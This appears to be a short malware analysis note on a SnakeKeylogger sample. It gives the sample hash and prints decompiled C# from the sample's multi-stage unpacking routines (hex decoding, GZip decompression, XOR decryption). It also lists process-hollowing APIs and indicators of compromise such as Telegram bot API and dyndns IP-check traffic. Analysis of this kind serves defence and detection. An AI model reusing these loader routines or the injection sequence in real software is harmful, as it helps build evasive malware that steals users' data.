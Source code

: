 #snakeKeylogger :
SHA256: 8c92fe975db6f552f522fbd9a8e542ae2e78cc0c21bb5e316b883b23e0084038

Sample is Microsoft Visual C# / Basic.NET [ Obfus/Crypted ], and 32 bit executable
File is packed , since the entropy value is high (Entropy: 7.53124(packed))


Decryption loop: 
	int num = (text.Length + 1) / 3;
		byte[] array = new byte[num];
			for (int i = 0; i < num; i++)
			{
				char c = text[3 * i];
				bool flag = c > '9';
				if (flag)
				{
					c = c - 'A' + '\n';
				}
				else
				{
					c -= '0';
				}
				char c2 = text[3 * i + 1];
				bool flag2 = c2 > '9';
				if (flag2)
				{
					c2 = c2 - 'A' + '\n';
				}
				else
				{
					c2 -= '0';
				}
				array[i] = (byte)('\u0010' * c + c2);
			}
      
The above loop decryptes the second stage dll executable. Also, invoke member, method info function are being called to enter the second stage.

{Name = "vL" FullName = 
"UO.vL"] 
"UO.vLA6(System.String, System.String, System.String)" 


Second stage decryption loop:

		public static byte[] ND(byte[] \u0020)
		{
			GZipStream gzipStream = new GZipStream(new MemoryStream(\u0020), CompressionMode.Decompress);
			byte[] result;
			try
			{
				byte[] array = new byte[4096];
				MemoryStream memoryStream = new MemoryStream();
				try
				{
					int num;
					do
					{
						num = vd.Fq(gzipStream, array, 0, 4096, vd.dW);
						bool flag = num > 0;
						if (flag)
						{
							global::kT.Fq(memoryStream, array, 0, num, global::kT.sS);
						}
					}
					while (num > 0);
					result = sB.Fq(memoryStream, sB.V1);
				}
				finally
				{
					if (memoryStream != null)
					{
						ae.Fq(memoryStream, ae.af);
					}
				}
			}
			finally
			{
				if (gzipStream != null)
				{
					ae.Fq(gzipStream, ae.af);
				}
			}
			return result;
		}
    
    
The loop returns another dll file and it is invoked using method info and invoke function.
    
{Name = "Himentater" FullName = "Munoz.Himentater"}
    
    public static byte[] SearchResult(byte[] BinaryCompatibility, string Opcode)
		{
			byte[] array = \u007F.~\u0093(\u001D.\u0090(), Opcode);
			int num = (int)(BinaryCompatibility[BinaryCompatibility.Length - 1] ^ 112);
			byte[] array2 = new byte[BinaryCompatibility.Length + 1];
			int num2 = 0;
			for (int i = 0; i <= BinaryCompatibility.Length - 1; i++)
			{
				int num3 = (int)BinaryCompatibility[i] ^ num ^ (int)array[num2];
				array2[i] = (byte)num3;
				bool flag = num2 == \u0014.~\u0080(Opcode) + 100 - 101;
				if (flag)
				{
					num2 = 0;
				}
				else
				{
					num2 = num2 + 200 - 199;
				}
			}
			Array.Resize<byte>(ref array2, BinaryCompatibility.Length - 1);
			return array2;
		}
The above loop decrypts the acutal payload and invoked the below function.
   
{Name = "Gq" FullName = "KW.Gq"}
    
The acutal payload:
08b07fb8ba550a1b9e1fa53797d69dc6
    
It is resolving virutalALlocEX,CreateProcessA, NTunmapviewsection, SetThreadContext, ReadProcessMEmory (codeInjection)
Also tries to connect to checkip.dyndns.org & api.telegram.com/bot
found strings related to snakeKeylogger.
